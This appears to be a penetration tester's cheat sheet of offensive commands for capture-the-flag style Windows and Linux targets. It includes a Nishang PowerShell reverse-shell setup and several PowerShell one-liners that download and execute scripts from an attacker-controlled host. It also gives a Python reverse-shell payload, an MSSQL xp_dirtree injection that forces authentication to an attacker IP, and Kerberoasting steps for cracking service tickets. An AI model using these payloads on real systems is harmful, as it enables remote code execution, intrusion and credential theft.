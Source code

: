 #### Tools & Techniques


 Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


 Linux
To get a better shell:
python -c 'import pty;pty.spawn("/bin/bash");'
 to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


 Windows
 to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

 Tools
 Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

 Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

 Other tools
readpst,mdb-shell,mdb-sql



Reading smbshare from mssql service using xp_dirtree:
;declare @q varchar(200);set @q="\;your_ip\test";exec master.dbo.xp_dirtree @q;--

 Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
Linux enumerarion help:  https://www.rebootuser.com/?p=1623#.V5QOe7grKUl


To find S3 bucket of the program, I used nahamsec‘s lazys3.
Command: ruby lazys3.rb site_name
https://github.com/ehsahil/recon-my-way/tree/master/lazys3 

Openssl :
openssl req -x509 -new -nodes -key abc.key -sha256 -days 1024 -out abcd.pem
openssl req -new -newkey rsa:2048 -nodes -out abc.csr -keyout abcd.key
openssl pkcs12 -export -in asdf.pem -inkey ca.key -out server.p12 

SMB part:
smbclient -L //ip   {smb shares}
smbmap -H ip   

Windows Nishang Rbash like thingy:
powershell -version 2 -command "IEX(New-Object Net.WebClient).DownloadString('http://:8000/Invoke-PowerShellTcp.ps1')"
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.x.x:port/PowerUp.ps1');Invoke-AllChecks"

Kerberoasting::
use nishang Reverse shell
use powerview to load
encode the password :  $SecPassword = ConvertTo-SecureString 'Password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword) 
Invoke-UserImpersonation -Credential $Cred
Invoke-kerberoast | fl  { default format of key is john but format can be changed in hashcat}

Python shell payload :
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("ip",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");';

